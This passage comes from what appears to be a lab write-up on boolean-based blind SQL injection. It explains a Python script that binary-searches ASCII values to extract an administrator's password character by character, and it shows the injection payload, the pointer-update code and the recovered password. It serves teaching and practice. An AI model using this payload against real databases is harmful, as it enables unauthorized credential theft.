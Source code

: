             # left and right pointers update
            if 'Welcome back!' in res:
              right_p = mid - 1
            else:
              left_p = mid + 1
        ```
        
        This function sets the left_p and right_p pointers of the ascii_val list, and then while loop starts with True condition because character not found will never happen and the loop will breaks when the response contains our desired text ( **Welcome back!** ).

        The main points of this function:
        1. Middle value of the list is calculated and assigned to a mid variable in each iteration of the loop.
        2. The first payload is executed to check that the extracted ascii value from the database is equal ( = ) to our ascii value ( ascii_val[mid] ).
        3. If the response is true the ascii value is converted into (chr) and assign to the password[] list, and then the while loop breaks.
        4. If the response is not true, then the second payload executes and this payload checks the extracted ascii value from the database is less ( < ) than our ascii value ( ascii_val[mid] ), and the true/false response decides which pointer will be updated.
        
            ```
            # Only check one condition, i am checking < less
            payload = "' AND (SELECT ASCII(SUBSTR(password,%d,1)) FROM users WHERE username='administrator')<'%d" %(i, ascii_val[mid])
            ```
            ```
            # left and right pointers update
            if 'Welcome back!' in res:
              right_p = mid - 1
            else:
              left_p = mid + 1
            ```
            
            <br>
    - **Extracted Password:** When all the threads are done execution, the password[] list contains all the characters and then it displays on the screen.
        
        ```
        print("[-] Password:", "".join(password))
        ```
    <br>
4. **Result:** <br>Table shows the result of the lab, but time also depends on the entropy of the password.

     Password | Time (seconds)
     ---------| -------------
     dur3ti0on0t4nc1ol2vk | 12.0841 sec.
